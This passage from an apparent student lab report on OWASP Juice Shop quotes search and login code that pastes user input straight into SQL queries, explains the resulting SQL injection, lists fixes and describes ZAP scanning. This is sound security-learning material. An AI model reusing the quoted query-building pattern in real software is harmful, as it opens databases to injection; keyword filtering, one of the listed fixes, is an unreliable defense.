file, we found the following code:

```typescript
module.exports = function searchProducts() {
    return (req: Request, res: Response, next: NextFunction) => {
        let criteria: any = req.query.q === 'undefined' ? '' : req.query.q ?? ''
        criteria = (criteria.length <= 200) ? criteria : criteria.substring(0, 200)
        models.sequelize.query(`SELECT * FROM Products WHERE ((name LIKE '%${criteria}%' OR description LIKE '%${criteria}%') AND deletedAt IS NULL) ORDER BY name`) // vuln-code-snippet vuln-line unionSqlInjectionChallenge dbSch
// ...
```

Similarly, in
the [login.ts](https://github.com/juice-shop/juice-shop/blob/9a0789b5ecb4ee76fe528b1860095e945f6302ac/routes/login.ts),
we found:

```typescript
module.exports = function login() {
    // ...
    models.sequelize.query(`SELECT * FROM Users WHERE email = '${req.body.email || ''}' AND password = '${security.hash(req.body.password || '')}' AND deletedAt IS NULL`, {
        model: UserModel,
        plain: true
    }) // vuln-code-snippet vuln-line loginAdminChallenge loginBenderChallenge loginJimChallenge 
// ...
```

These two snippets are vulnerable to SQL injection, as they directly interpolate user input into the SQL query.
In order to fix this, there are multiple options, such as using prepared statements, an Object Relational Mapping
framework, or filtering the user input for SQL keywords.

## Scanning the application for vulnerabilities

Next, we decided to use automated tools to scan the application for vulnerabilities.

### OWASP ZAP

We ran OWASP ZAP against the application. We did not have much success using the automated scan, as most vulnerabilities
were behind authentication. However, we were able to find some vulnerabilities manually, such as the SQL injection in
the login form.

Next, we ran the scans manually, by logging in with the credentials we found, and found other vulnerabilities.

## Conclusion

This lab allowed us to understand the need for secure web application development, and the importance of testing to
ensure that the application is secure.
It provided us with a good overview of the most common vulnerabilities, and how to exploit them.